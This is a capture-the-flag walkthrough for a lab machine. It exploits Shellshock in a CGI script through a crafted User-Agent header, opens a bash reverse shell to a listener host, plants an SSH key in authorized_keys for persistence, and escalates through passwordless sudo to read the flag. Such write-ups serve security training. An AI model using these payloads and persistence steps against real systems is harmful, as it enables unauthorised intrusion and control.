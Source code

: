 ## Web Hacking 05
> Explore and discover possible vulnerabilities of the machine to gain access and capture the Flag.
> 
> IP: 192.168.10.8

### Nmap
Since the challenge is not showing a port, we first do a port scan using nmap.

```bash
$ nmap -p- 192.168.10.8

Nmap scan report for 192.168.10.8
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8110/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 46.49 seconds
```

The webserver on port 8110 requires authentication and sends a header containing the admin data.


```bash
$ curl -I http://192.168.10.8:8110
HTTP/1.1 401 Unauthorized
Date: Mon, 06 Jun 2022 19:43:42 GMT
Content-Type: text/html
Content-Length: 172
Connection: keep-alive
WWW-Authenticate: Basic realm="Registry realm"
Server: admin : PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc

$ curl http://192.168.10.8:8110 -u admin:PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
<html>
    <head><title>Vulnerables | ShellShock</title></head>
    <style>
   	.fig {
    	text-align: center;
   	}
   	body {
  	background-color: #0a0a0a;
	}
  </style>
    <body>
    	<p class="fig"><img src="webpage-img.jpg" alt="Here's nothing. "></p>
    </body>
</html>

```

The title says `Vulnerables | ShellShock` and an image showing shellshock.
Since shellshock is a vulnerability in bash execution, we need a `/cgi-bin/` file. To find it, gobuster is used.

```bash
$ gobuster dir -u http://192.168.10.8:8110 -w /usr/share/wordlists/dirb/common.txt -U admin -P PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.8:8110
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Auth User:               admin
[+] Timeout:                 10s
===============================================================
2022/06/06 22:11:05 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 286]
/.htaccess            (Status: 403) [Size: 286]
/cgi-bin/             (Status: 403) [Size: 285]
/index.html           (Status: 200) [Size: 279]
/index                (Status: 200) [Size: 279]
/robots               (Status: 200) [Size: 202]
/robots.txt           (Status: 200) [Size: 202]
/server-status        (Status: 403) [Size: 290]
                                               
===============================================================
2022/06/06 22:12:20 Finished
===============================================================
```

The `robots.txt` shows a hint that this machine is vulnerable and contains a link to `/cgi-bin/vulnerable`.


```bash
$ curl http://192.168.10.8:$PORT/robots.txt -u $AUTH                    

/cgi-bin/vulnerable

This machine appears to be vulnerable to Shellshock, try to obtain a reverse shell.
```

Using the shellshock exploit and `id` as the command, the vulnerability can be detected.


```bash
$ curl -A "() { :;}; echo; /bin/bash -c 'id'" http://192.168.10.8:$PORT/cgi-bin/vulnerable -u $AUTH
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Reverse shell
With a reverse shell opened on the attacker machine using `nc -lvp 1337` and a bash reverse shell through the vulnerability, a shell can be obtained.

In the home folder is a script called `touchmenot.sh` which executes a bash shell as the user `joaquim`.

```bash
$ curl -A "() { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.9.2/1337 0>&1'" http://192.168.10.8:8110/cgi-bin/vulnerable -u admin:PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc

www-data@01557ef5aa3b:/usr/lib/cgi-bin$ cd /home
www-data@01557ef5aa3b:/home$ ./touchmenot.sh
$ id
uid=33(www-data) gid=33(www-data) euid=1000(joaquim) egid=1000(joaquim) groups=1000(joaquim),33(www-data)

$ cd /home/joaquim

$ ls -lah
total 28K
drwxr-xr-x 1 joaquim joaquim 4.0K May 21 11:21 .
drwxr-xr-x 1 root    root    4.0K May 21 11:21 ..
-rw-r--r-- 1 joaquim joaquim  220 Sep 25  2014 .bash_logout
-rw-r--r-- 1 joaquim joaquim 3.4K Sep 25  2014 .bashrc
-rw-r--r-- 1 joaquim joaquim  675 Sep 25  2014 .profile
drwx------ 2 joaquim joaquim 4.0K May 21 11:21 .ssh
-rw------- 1 joaquim joaquim  341 May 21 11:21 ssh_config.txt

$ cat ssh_config.txt
SSH server is running on a deprecated version.

In order to establish an ssh connection, we need to use ED25519 algorithm.

Create a key with the following command and then paste it on the .ssh/authorized_keys file.

ssh-keygen -t ed25519 -C "your_email@example.com"

To access the server, execute the following command:

ssh -i key user@ip
```

In the home folder of `joaquim` there is a `ssh_config.txt` file containing information on how to create a ssh key.

```bash
$ ssh-keygen -t ed25519 -C "your_email@example.com"
$ cat key.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```

The key is created on the attacker machine and added to the `authorized_keys` file for the user. Now a ssh connection can be used insted of the reverse shell.

```bash
$ cd .ssh
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com" >> authorized_keys
$ cat authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINQSZDrYvsA+71Dsj52F8d5/qBsURESHx8e++XPigszh test@example.com
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```


Since the user is in the sudo group and is not requesting a password, the flag can be retrieved from the `/root/` folder.
```bash
$ ssh -i key joaquim@192.168.10.8


$ sudo ls -lah /root
total 20K
drwx------ 1 root root 4.0K May 21 11:21 .
drwxr-xr-x 1 root root 4.0K Jun  6 07:15 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  140 Nov 19  2007 .profile
-rw-rw-r-- 1 root root   28 May 21 11:14 flag.zip

$ sudo file /root/flag.zip
/root/flag.zip: ASCII text, with no line terminators

$ sudo cat /root/flag.zip 
Y3liZXJjdGZkezFfNG1fcjAwN30=

$ sudo cat /root/flag.zip | base64 -d
cyberctfd{1_4m_r007}
```

The file is base64 encoded, decoded is the searched flag.